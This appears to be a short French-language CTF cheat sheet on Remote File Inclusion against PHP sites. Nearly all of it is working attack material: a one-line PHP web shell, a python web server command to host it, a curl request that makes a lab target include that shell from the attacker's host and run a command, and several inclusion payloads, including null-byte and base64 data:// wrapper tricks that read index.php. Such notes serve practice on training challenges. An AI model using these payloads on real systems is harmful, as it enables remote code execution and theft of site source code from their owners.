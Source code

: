 # RFI

## contenu du fichier:
<?php system($_GET['cmd']); ?>

## lancement serveur web:
python3 -m http.server 8080

## requete:
curl "http://10.129.29.114/index.php?language=http://10.10.14.225:8000/ws.php&cmd=id"




## exemple: (avec NULL à la fin)
http://challenge01.CTF.exemple/web-serveur/ch13/index.php?lang=http://challenge01.CTF.exemple/web-serveur/ch13/index.php%00
http://challenge01.CTF.exemple/web-serveur/ch13/index.php?lang=https://google.fr?
http://challenge01.CTF.exemple/web-serveur/ch13/index.php?lang=%3C?php%20exit(%27Acces%20non%20autorise%20blablablabla%20!%27);

## Code php dans wrapper:

http://challenge01.CTF.exemple/web-serveur/ch13/?lang=data://text/plain;base64,PD9waHANCiRob21lcGFnZSA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdpbmRleC5waHAnKTsNCmVjaG8gJGhvbWVwYWdlOw0KPz4=


data://text/plain;base64,PD9waHANCiRob21lcGFnZSA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdpbmRleC5waHAnKTsNCmVjaG8gJGhvbWVwYWdlOw0KPz4=

b64:
<?php
$homepage = file_get_contents('index.php');
echo $homepage;
?>

